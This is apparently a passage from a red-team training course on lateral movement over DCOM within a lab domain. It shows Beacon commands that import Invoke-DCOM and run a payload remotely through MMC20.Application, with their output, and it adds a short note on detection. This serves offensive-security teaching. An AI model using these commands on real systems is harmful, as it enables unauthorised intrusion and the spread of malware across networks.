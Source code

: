 
Beacon has no built-in capabilities to interact over Distributed Component Object Model (DCOM), so we must use an external tool such as [Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1).  We'll see in a later module how this can be integrated into the `jump` command.
```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe
Completed

beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
[+] established link to child beacon: 10.10.122.30
```

DCOM is more complicated to detect, since each "Method" works in a different way. In the particular case of `MMC20.Application`, the spawned process will be a child of `mmc.exe`.